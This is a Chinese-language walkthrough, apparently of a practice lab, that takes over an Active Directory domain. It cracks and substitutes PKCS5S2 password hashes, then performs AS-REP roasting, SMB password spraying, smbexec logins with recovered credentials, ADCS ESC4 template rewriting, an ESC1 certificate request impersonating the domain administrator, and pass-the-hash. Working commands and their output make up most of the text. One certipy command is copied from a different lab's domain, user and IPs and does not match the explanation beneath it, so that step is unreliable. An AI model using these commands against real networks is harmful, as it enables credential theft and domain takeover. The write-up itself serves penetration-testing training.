

```
{PKCS5S2}JYMqFvi/OcwDBkiBJVf9QV/jdE91lgptmigRB6oGmK4JFXnlZY4VQnLCuzcYK7KX
{PKCS5S2}xUjKeN7GD2/e9WRWD0hpoaPaCuei2O5otn/mBcHv4ZVKT9ttjLQJ8oKvwm20bzDL
```

### 方法一

爆破

```
hashcat -m 12001 -a 0 "{PKCS5S2}xUjKeN7GD2/e9WRWD0hpoaPaCuei2O5otn/mBcHv4ZVKT9ttjLQJ8oKvwm20bzDL" rockyou.txt
```



### 方法二

替换

```
Ab123456对应密文——{PKCS5S2}ltrb9LlmZ0QDCJvktxd45WgYLOgPt2XTV8X7av2p0mhPvIwofs9bHYVz2OXQ6/kF
123123对应密文——{PKCS5S2}V1J8HcMvYsdtnETu2tjA1gFVQ1L3o+dAsNiooSAcSvpRcbkTR8K4Ha/iWgF145gk
123456对应密文——{PKCS5S2}UokaJs5wj02LBUJABpGmkxvCX0q+IbTdaUfxy1M9tVOeI38j95MRrVxWjNCu6gsm
```

admin用户的密码替换成123123，cslab用户爆破出来的密码是123456

进入后台发现有一个cyberstrikelab空间，找到成员表<http://172.3.3.13:8090/display/CYB/cyberstrikelab>



```
admin
cslab
Harvey
Alana
Sameer
Mia
harvey
alana
sameer
mia
```

## AS-REQ Roasting

使用 `impacket-GetNPUsers` 工具进行 AS-REQ Roasting 攻击，AS-REQ Roasting 是一种针对 Kerberos 协议的攻击方法，如果用户设置了 "不需要预认证" 属性，可以获取用户的 NT hash。

```
proxychains4 -q impacket-GetNPUsers -dc-ip 10.10.10.5 -usersfile user.txt cyberstrike.lab/ -no-pass
```

* `-dc-ip 10.10.10.5`：指定域控制器的 IP 地址
* `-usersfile user.txt`：包含要测试的用户名列表的文件
* `cyberstrike.lab/`：指定目标域名
* `-no-pass`：不需要提供密码



* `KDC_ERR_C_PRINCIPAL_UNKNOWN` **错误**：  
  这表明测试的大部分用户名在域（`cyberstrike.lab`）的 Kerberos 数据库中**不存在**。可能是这些用户名是无效的、拼写错误，或不属于该域。
* `User cslab doesn't have UF_DONT_REQUIRE_PREAUTH set`：

* 确认了域中**存在**`cslab`**这个用户**（因为没有返回 "未知主体" 错误）。
* 但该用户**启用了预认证**（未设置 `UF_DONT_REQUIRE_PREAUTH` 属性），因此无法通过 AS-REQ Roasting 攻击获取其哈希。

## 密码喷洒

爆破一下cslab用户的密码

```
proxychains4 -q ./nxc smb 10.10.10.66 -u cslab -p top1200.txt
```

* `nxc smb`：指定对 SMB 服务进行测试
* `10.10.10.66`：目标主机 IP
* `-u cslab`：指定要测试的用户名
* `-p <字典路径>`：指定密码字典路径



爆破出来密码是qwe!@#123



发现本地的管理员也是这个密码，使用impacket-smbexec连接

```
proxychains4 -q  impacket-smbexec ./Administrator:'qwe!@#123'@10.10.10.66 -dc-ip 10.10.10.5 -codec gbk
```

开启3389，添加一个用户进去



发现有证书服务



## ADCS-ESC4

使用`certipy-ad`工具探测域内是否存在**易受攻击的证书模板**，寻找证书服务相关的漏洞。

```
proxychains4 -q certipy-ad find -u 'cslab@cyberstrike.lab' -p 'qwe!@#123' -dc-ip 10.10.10.5 -vulnerable -stdout
```

* `-u 'cslab@cyberstrike.lab' -p 'qwe!@#123'`：使用已知的用户凭证进行认证。
* `-dc-ip 10.10.10.5`：指定域控制器 IP。
* `-vulnerable`：只显示存在漏洞的证书模板。
* `-stdout`：结果输出到标准输出。

```
┌──(root㉿Penetration)-[/mnt/c/Users/Anonymous/Desktop]
└─# proxychains4 -q certipy-ad find -u 'cslab@cyberstrike.lab' -p 'qwe!@#123' -dc-ip 10.10.10.5 -vulnerable -stdout
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Finding issuance policies
[*] Found 15 issuance policies
[*] Found 0 OIDs linked to templates
[!] DNS resolution failed: The resolution lifetime expired after 5.411 seconds: Server Do53:10.10.10.5@53 answered The DNS operation timed out.; Server Do53:10.10.10.5@53 answered The DNS operation timed out.; Server Do53:10.10.10.5@53 answered The DNS operation timed out.
[!] Use -debug to print a stacktrace
[*] Retrieving CA configuration for 'cyberstrike-DC-CA' via RRP
[-] Failed to connect to remote registry: No answer!
[-] Use -debug to print a stacktrace
[!] Failed to get CA configuration for 'cyberstrike-DC-CA' via RRP: 'NoneType' object has no attribute 'request'
[!] Use -debug to print a stacktrace
[!] Could not retrieve configuration for 'cyberstrike-DC-CA'
[*] Checking web enrollment for CA 'cyberstrike-DC-CA' @ 'DC.cyberstrike.lab'
[!] Error checking web enrollment: Server disconnected without sending a response.
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: [SSL: UNEXPECTED_EOF_WHILE_READING] EOF occurred in violation of protocol (_ssl.c:1029)
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : cyberstrike-DC-CA
    DNS Name                            : DC.cyberstrike.lab
    Certificate Subject                 : CN=cyberstrike-DC-CA, DC=cyberstrike, DC=lab
    Certificate Serial Number           : 57F79A928D461080408002FFA18BD889
    Certificate Validity Start          : 2025-07-11 05:37:21+00:00
    Certificate Validity End            : 2030-07-11 05:47:21+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Unknown
    Request Disposition                 : Unknown
    Enforce Encryption for Requests     : Unknown
    Active Policy                       : Unknown
    Disabled Extensions                 : Unknown
Certificate Templates
  0
    Template Name                       : DC
    Display Name                        : DC
    Certificate Authorities             : cyberstrike-DC-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireDns
    Enrollment Flag                     : PendAllRequests
                                          AutoEnrollment
    Extended Key Usage                  : Client Authentication
    Requires Manager Approval           : True
    Requires Key Archival               : False
    RA Application Policies             : Client Authentication
    Authorized Signatures Required      : 1
    Schema Version                      : 2
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2025-07-11T05:50:48+00:00
    Template Last Modified              : 2025-07-11T05:50:48+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CYBERSTRIKE.LAB\Domain Admins
                                          CYBERSTRIKE.LAB\Domain Computers
                                          CYBERSTRIKE.LAB\Enterprise Admins
      Object Control Permissions
        Owner                           : CYBERSTRIKE.LAB\Administrator
        Full Control Principals         : CYBERSTRIKE.LAB\Domain Admins
                                          CYBERSTRIKE.LAB\Enterprise Admins
        Write Owner Principals          : CYBERSTRIKE.LAB\Domain Admins
                                          CYBERSTRIKE.LAB\Enterprise Admins
        Write Dacl Principals           : CYBERSTRIKE.LAB\Domain Admins
                                          CYBERSTRIKE.LAB\Enterprise Admins
        Write Property Enroll           : CYBERSTRIKE.LAB\Domain Admins
                                          CYBERSTRIKE.LAB\Domain Computers
                                          CYBERSTRIKE.LAB\Enterprise Admins
    [+] User Enrollable Principals      : CYBERSTRIKE.LAB\Domain Computers
    [+] User ACL Principals             : CYBERSTRIKE.LAB\Domain Users
    [!] Vulnerabilities
      ESC4                              : User has dangerous permissions.
```

提取有用信息

```
CA Name                             : cyberstrike-DC-CA
Template Name                       : DC
Full Control Principals         : CYBERSTRIKE.LAB\Domain Admins
                                          CYBERSTRIKE.LAB\Enterprise Admins
Write Owner Principals          : CYBERSTRIKE.LAB\Domain Admins
                                          CYBERSTRIKE.LAB\Enterprise Admins
Write Dacl Principals           : CYBERSTRIKE.LAB\Domain Admins
                                          CYBERSTRIKE.LAB\Enterprise Admins
Write Property Enroll           : CYBERSTRIKE.LAB\Domain Admins
                                          CYBERSTRIKE.LAB\Domain Computers
                                          CYBERSTRIKE.LAB\Enterprise Admins
ESC4                              : User has dangerous permissions.
```

Full Control Principals 由 CYBERSTRIKE.LAB\Domain Admins 和 CYBERSTRIKE.LAB\Enterprise Admins 掌握，这两个高权限组因此拥有对该证书模板的全部操作权限，包括修改各项属性、调整权限配置、删除模板等，从权限覆盖范围来说是最高级别的控制能力，符合域内高权限组对关键对象的管理需求。

Write Owner Principals 同样分配给 CYBERSTRIKE.LAB\Domain Admins 和 CYBERSTRIKE.LAB\Enterprise Admins，意味着这两个组有权修改该证书模板的所有者属性，而在 Windows 系统中，对象的所有者默认对对象拥有修改权限，此处由高权限组掌握该权限，可确保对模板所有权的控制，避免低权限主体通过篡改所有者身份获取不当权限。

Write Dacl Principals 仅属于 CYBERSTRIKE.LAB\Domain Admins 和 CYBERSTRIKE.LAB\Enterprise Admins，这使得他们能够修改该证书模板的自主访问控制列表（DACL），具体来说可以添加或移除其他主体对模板的权限项，比如为某个低权限用户或组授予注册权限等，由于该权限能间接控制其他主体的权限获取，是权限链中较为关键的控制节点。

Write Property Enroll 除了 CYBERSTRIKE.LAB\Domain Admins 和 CYBERSTRIKE.LAB\Enterprise Admins 外，还包含 CYBERSTRIKE.LAB\Domain Computers，这意味着域内所有计算机账户组成的组有权修改该证书模板的 “注册” 相关属性，结合之前提到的可编辑模板的条件，这一配置为利用提供了可能，攻击者若控制域内某台计算机的系统账户，便可借助该权限调整模板的注册规则，为后续操作铺路。

主要利用的是Domain Admins具有Write Dacl Principals的权限，来修改模板的配置，然后利用ECS1来打即可。

```
proxychains4 -q certipy-ad template -u 'cslab@cyberstrike.lab' -p 'qwe!@#123' -dc-ip 10.10.10.5 -template 'DC' -write-default-configuration
```

* `certipy-ad template`：`certipy-ad` 是专门针对 Active Directory 证书服务（AD CS）的渗透测试工具，`template` 子命令用于管理和修改证书模板的配置。
* `-u 'cslab@cyberstrike.lab' -p 'qwe!@#123'`：指定用于认证的域用户凭证，`cslab` 是用户名，`qwe!@#123` 是密码，`cyberstrike.lab` 是目标域。
* `-dc-ip 10.10.10.5`：指定域控制器的 IP 地址，确保工具能直接与域控通信以修改模板配置。
* `-template 'DC'`：明确目标证书模板名称为 `DC`，即要修改的是名为 `DC` 的证书模板。
* `-write-default-configuration`：作用是将 `DC` 模板的配置自动修改为一套 “默认可利用的预设值”，通常包括：开放低权限用户（如域用户）的注册权限、允许自定义证书主体（可伪造高权限用户）、禁用管理批准和授权签名要求等限制，本质是自动化完成手动调整模板属性的步骤，使其符合证书漏洞 ESC1的利用条件。



现在已经将模板DC重新配置为容易受到ESC1的攻击，再次扫描一下漏洞。

## ADCS-ESC1

```
┌──(root㉿Penetration)-[/mnt/c/Users/Anonymous/Desktop]
└─# proxychains4 -q certipy-ad find -u 'cslab@cyberstrike.lab' -p 'qwe!@#123' -dc-ip 10.10.10.5 -vulnerable -stdout
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Finding issuance policies
[*] Found 15 issuance policies
[*] Found 0 OIDs linked to templates
[!] DNS resolution failed: The resolution lifetime expired after 5.417 seconds: Server Do53:10.10.10.5@53 answered The DNS operation timed out.; Server Do53:10.10.10.5@53 answered The DNS operation timed out.; Server Do53:10.10.10.5@53 answered The DNS operation timed out.
[!] Use -debug to print a stacktrace
[*] Retrieving CA configuration for 'cyberstrike-DC-CA' via RRP
[-] Failed to connect to remote registry: No answer!
[-] Use -debug to print a stacktrace
[!] Failed to get CA configuration for 'cyberstrike-DC-CA' via RRP: 'NoneType' object has no attribute 'request'
[!] Use -debug to print a stacktrace
[!] Could not retrieve configuration for 'cyberstrike-DC-CA'
[*] Checking web enrollment for CA 'cyberstrike-DC-CA' @ 'DC.cyberstrike.lab'
[!] Error checking web enrollment: Server disconnected without sending a response.
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: [SSL: UNEXPECTED_EOF_WHILE_READING] EOF occurred in violation of protocol (_ssl.c:1029)
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : cyberstrike-DC-CA
    DNS Name                            : DC.cyberstrike.lab
    Certificate Subject                 : CN=cyberstrike-DC-CA, DC=cyberstrike, DC=lab
    Certificate Serial Number           : 57F79A928D461080408002FFA18BD889
    Certificate Validity Start          : 2025-07-11 05:37:21+00:00
    Certificate Validity End            : 2030-07-11 05:47:21+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Unknown
    Request Disposition                 : Unknown
    Enforce Encryption for Requests     : Unknown
    Active Policy                       : Unknown
    Disabled Extensions                 : Unknown
Certificate Templates
  0
    Template Name                       : DC
    Display Name                        : DC
    Certificate Authorities             : cyberstrike-DC-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2025-07-11T05:50:48+00:00
    Template Last Modified              : 2025-08-03T08:57:20+00:00
    Permissions
      Object Control Permissions
        Owner                           : CYBERSTRIKE.LAB\Administrator
        Full Control Principals         : CYBERSTRIKE.LAB\Authenticated Users
        Write Owner Principals          : CYBERSTRIKE.LAB\Authenticated Users
        Write Dacl Principals           : CYBERSTRIKE.LAB\Authenticated Users
    [+] User Enrollable Principals      : CYBERSTRIKE.LAB\Authenticated Users
    [+] User ACL Principals             : CYBERSTRIKE.LAB\Authenticated Users
    [!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.
      ESC4                              : User has dangerous permissions.
```

发现现在可以进行ESC1攻击。

改一下hosts，不然会超时

```
10.10.10.5      dc.cyberstrike.lab
10.10.10.5      cyberstrike.lab
10.10.10.5      cyberstrike-DC-CA
```



申请 XR Manager 证书模版并伪造域管理员

```
proxychains certipy-ad req -u 'zhangxia@xiaorang.lab' -p 'MyPass2@@6' -target 172.22.9.7 -dc-ip 172.22.9.7 -ca 'xiaorang-XIAORANG-DC-CA' -template 'XR Manager' -upn 'administrator@xiaorang.lab'
```

* `certipy-ad req`：  
  `certipy-ad`是针对 Active Directory 证书服务（AD CS）的渗透测试工具，`req`是其核心子命令，用于向 CA 申请证书。
* `-u 'cslab@cyberstrike.lab'`：  
  指定用于认证的域用户账户，此处为`cslab`，所属域为`cyberstrike.lab`。该用户需要具备目标证书模板（“DC”）的注册权限（此前配置的 ESC 1 漏洞条件之一）。
* `-p 'qwe!@#123'`：  
  对应上述用户`cslab`的密码，用于身份验证以获得申请证书的权限。
* `-target 10.10.10.5`：  
  指定证书颁发机构（CA）的 IP 地址，即目标 CA 服务器的地址（此处与域控制器 IP 相同，可能 CA 与 DC 部署在同一台服务器）。
* `-dc-ip 10.10.10.5`：  
  指定域控制器（DC）的 IP 地址，用于在申请证书过程中与域控制器进行交互（如验证用户身份、查询模板信息等）。
* `-ca 'cyberstrike-DC-CA'`：  
  指定目标 CA 的名称，此处为`cyberstrike-DC-CA`，即需要向该 CA 申请证书。
* `-template 'DC'`：  
  指定用于申请证书的模板名称，即此前配置为易受 ESC 1 攻击的 “DC” 模板。该模板需允许低权限用户注册、支持自定义主体等（ESC 1 漏洞利用的关键）。
* `-upn 'administrator@cyberstrike.lab'`：  
  指定证书的用户主体名称（UPN），此处伪造为域管理员`administrator@cyberstrike.lab`。这是 ESC 1 漏洞利用的核心步骤 —— 利用模板允许 “申请人指定主体” 的配置，申请以高权限用户（如管理员）为主体的证书，进而通过证书进行身份认证以提升权限。



得到administrator.pfx,然后利用administrator.pfx证书获取 TGT 和 NTLM Hash

```
proxychains -q certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.10.5
```



拿到域管的 HASH

### PTH

```
proxychains -q impacket-smbexec Administrator@10.10.10.5 -dc-ip 10.10.10.5 -hashes :931ec8a3de75c4e55f136d7ff3a9bb6e -codec gbk
```


